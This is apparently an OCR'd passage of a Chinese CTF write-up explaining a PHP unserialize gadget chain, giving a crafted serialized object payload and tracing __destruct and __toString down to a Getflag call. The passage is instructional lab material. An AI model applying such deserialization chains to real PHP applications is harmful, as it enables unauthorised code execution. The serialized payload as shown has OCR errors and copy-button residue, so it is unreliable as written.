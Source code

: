 ------

链条逐步详细执行

### **Step 1：unserialize 反序列化**

我们传入序列化后的 `w22m` 对象：

```
css复制编辑O:4:"w22m":1:{
  s:4:"w00m";O:4:"w33m":2:{
    s:4:"w00m";O:4:"w44m":2:{
      s:10:"w44madmin";s:4:"w44m";
      s:7:"*passwd";s:5:"08067";
    }
    s:4:"w22m";s:7:"Getflag";
  }
}
```

- PHP 会根据序列化字符串，依次恢复出对象 `w22m → w33m → w44m`，并正确赋值属性。

------

### **Step 2：脚本执行完毕，触发 w22m::__destruct**

PHP 脚本执行完成后，所有对象会被销毁。销毁时会调用它们的析构方法。

```
public function __destruct(){
    echo $this->w00m;
}
```

- 因为 `$this->w00m` 是一个对象（`w33m`），`echo` 一个对象时，PHP 会调用该对象的 `__toString()`。

**接下来跳转到 `w33m::__toString`。**

------

### **Step 3：w33m::__toString 被调用**

```
public function __toString(){
    $this->w00m->{$this->w22m}();
    return 0;
}
```

- `$this->w00m` → 这里是 `w44m` 对象。
- `$this->w22m` → 是字符串 `"Getflag"`。

于是，这里执行：

```
$this->w00m->{$this->w22m}();  
// 等价于 $w44m->Getflag();
```
